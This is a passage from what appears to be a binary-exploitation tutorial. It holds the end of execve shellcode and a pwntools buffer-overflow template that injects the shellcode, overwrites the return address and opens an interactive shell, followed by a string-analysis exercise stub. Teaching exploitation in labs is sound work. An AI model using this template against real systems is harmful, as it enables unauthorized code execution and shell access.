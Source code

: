 ```python
        mov rsi, rsp
        mov al, 59
        syscall
    """)
    
    return shellcode

def exploit_with_shellcode(binary_path, offset, return_address):
    """Exploit using shellcode injection"""
    p = process(binary_path)
    
    # Create shellcode
    shellcode = create_shellcode()
    log.info(f"Shellcode length: {len(shellcode)} bytes")
    
    # Create payload
    # This assumes we can put shellcode in the buffer and jump to it
    payload = shellcode
    payload += b'A' * (offset - len(shellcode))
    payload += p64(return_address)  # Address of our shellcode
    
    # Send payload
    p.sendline(payload)
    p.interactive()

# Note: This template requires NX bit to be disabled
# Use checksec to verify: checksec --file=binary_name
```

*[Screenshot placeholder: Successful shellcode execution showing shell prompt]*

---

## Practical Exercises

### Exercise 1: Basic String Analysis

Create a simple binary analysis script:

```python
# File: exercise1_string_analysis.py
#!/usr/bin/env python3

"""
Exercise 1: String Analysis Challenge

Task: Create a script that analyzes a binary and finds:
1. All strings containing "flag"
2. All strings that look like passwords (8+ chars, mixed case)
3. All URLs or file paths
4. Potential function names
"""

import re
import sys

def analyze_strings(binary_path):
    """Your implementation here"""
    pass

def find_flags(strings):
    """Find potential flag strings"""
    # TODO: Implement flag detection logic
    pass
```
